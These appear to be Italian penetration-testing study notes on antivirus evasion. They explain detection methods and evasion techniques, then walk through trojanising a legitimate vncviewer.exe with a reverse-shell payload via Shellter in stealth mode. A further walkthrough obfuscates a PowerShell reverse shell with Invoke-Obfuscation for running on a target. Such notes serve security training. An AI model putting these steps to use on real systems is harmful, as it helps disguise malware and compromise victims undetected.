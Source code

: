 
# AV Evesion
L'evasione dei sistemi di difesa consiste in un insieme di tecniche che vengono  utilizzate per evitare il rilevamento durante un attacco. <br>
Le tecniche usate incudono la disinstallazione/disabilitazione dei software di sicurezza (antivirus) o l'offuscamento/crittografia dei dati degli scripts. <br>
Tutto consiste nel cambiare o mascherare la firma degli script dannosi. <br>

Una firma é una sequenza di byte, o una stringa di testo univoca, che identifica in modo univoco dei malware, dei file o degli eseguibili malevoli.  

---

### AV Detection Methods
I software antivirus usano due tipi di analisi per individuare un codice malevolo: 
- analisi basata sulla firma: é il metodo di rilevazione piú antico e piú usato attualmente. Uno dei piú conosciuti é Windows Defender. <br>
consiste nella ricerca della firma del file su un database di firme che fanno riferimento a file malevoli. il miglior metodo é quello di inniettare un payload malevolo dentro un file legittimo in modo tale che la firma per quel payload sia la stessa del file legittimo. 

- analisi euristica: si basa su una serie di regole o decisioni per determinare se un binario o un eseguibile sia dannoso cercando dei modelli specifici dentro al codice del programma

- analisi basata sul comportamento: é molto efficiente contro i nuovi malware e si basa sul comportamento del file dando un occhiata a quali azioni compie il file per vedere se va a toccare i registri di windows o ha qualche comportamento sospetto cosí da segnalarlo come malevolo. 

---

### AV Evasion Methods
i metodi di evasione per i sistemi di sicurezza si dividono in: 
1. Evasione On-Disk
   - offuscamento: si riferisce al procedimento di occultamento di qualcosa di importante, prezioso o critico. Quello che fa é riorganizzare il codice in modo da non essere rilevato dai sistemi di rilevamento
   - codifica: é un processo che comporta la modifica dei dati in un nuovo formato utilizzando un precisco schemda di codifica. il vantaggio é che quando si codifica un codice con un determinato schema, esso é facilmente reversibile.
   - Packing: consiste nel generare un eseguibile con una nuova struttura binaria con una dimenzione piú piccola fornendo un payload con una nuova firma.
   - Cryptas: consiste nel crittografare il codice o il payload per poi decrittografarlo in memoria conservando la chiave di decrittografia dentro uno stub. 
   
2. Evasione On-Memory
   - si basano sulla manipolazione della memoria e non sul disco. Implica l'iniezione di payload in un processo sfruttando vari API di Windows e il payload viene eseguito in memoria in un file separato. 

---

## Shellter
Shellter é uno strumento dinamico che permette di infettare file eseguibili **32 bit** per sistemi **Windows x32/x64** con un payload, come ad esempio una reverse shell, senza alterare il normale funzionamento del programma originale. Si tratta di un cosiddetto injector polimorfico, capace di analizzare dinamicamente il codice dell’eseguibile per trovare i punti migliori in cui inserire il codice malevolo, rendendo l’operazione più difficile da individuare da parte degli antivirus tradizionali.

La documentazione si trova a questo <a href="https://www.shellterproject.com/introducing-shellter/">link</a>

per poterlo installare: 
```bash
sudo apt-get install shellter -y 
```
shellter é in realtá un eseguibile windows e per poterlo eseguire su linux dobbiamo usare `wine`. 
per installare wine: 
```bash
sudo dpkg --add-architecture i386
sudo apt-get install wine32
```
e cosí possiamo eseguire shellter su linux usando wine: 
```bash
cd /usr/share/windows-resources/shellter
ls -la
sudo wine shellter.exe
```
per poter inniettare shellter dentro un eseguibile windows possiamo andare nella cartelle `windows-binaries` su kali linux che include vari binari legittimi di windows per prendere il binario `vncviewer`: 
```bash
cp /usr/share/windows-binaries/vncviewer.exe /home/kali/Desktop
sudo wine shellter.exe
A
/home/kali/Desktop/vncviewer.exe
# dopo un pó di tempo ci verrá chiesto di abilitare la stealth mode
y
L
1
<LHOST>
<LPORT>
```
avremo cosí il nostro eseguibile modificato e quello che abbiamo dato a shellcode precedentemente verrá messo nelle sua cartella di backup.
ora dovremo solo avviare un multi handler con il payload impostato e far eseguire l'applicazione .exe modificata sul target. 

---

## Invoke Obfuscation
é un opersource Powershell v2.0+ tool in grado di offuscare script Powershell in modo che non allarmino l'antivirus. 
é possibile installarlo al seguente <a href="https://github.com/danielbohannon/Invoke-Obfuscation">link</a>

Questo tool permette di eseguire dei codici powershell su sitemi linux 
```bash
sudo apt-get install powershell -y
pwsh                                       # per avviare powershell su linux
cd ./Invoke-Obfuscation/                   # per spostarsi nella directory di obfuscation installato da github
Import-Module ./Invoke-Obfuscation psd1    # per importare il modulo di obfuscation
Invoke-Obfuscation                         # per avviare il programma
```
adesso prendiamo un shelcode preso dalla CheatSheet e lo salviamo in un file chiamato `shell.ps1` per poi iniziare il processo di obfuscation dentro la console poweshell aperta: 
```bash
SET SCRIPTPATH /path/file/shell.ps1
```
per poi inserire una tecnica di offuscamento tra quelle indicate come ad esempio `AST` per poi scrivere `ALL` oppure se volessimo codificare lo script scriviamo `ENCODING` per poi dire con quale algoritmo vogliamo codificare lo script. <br> 
verrá poi generato il nuovo codice che possiamo eseguire sulla macchina windows target 

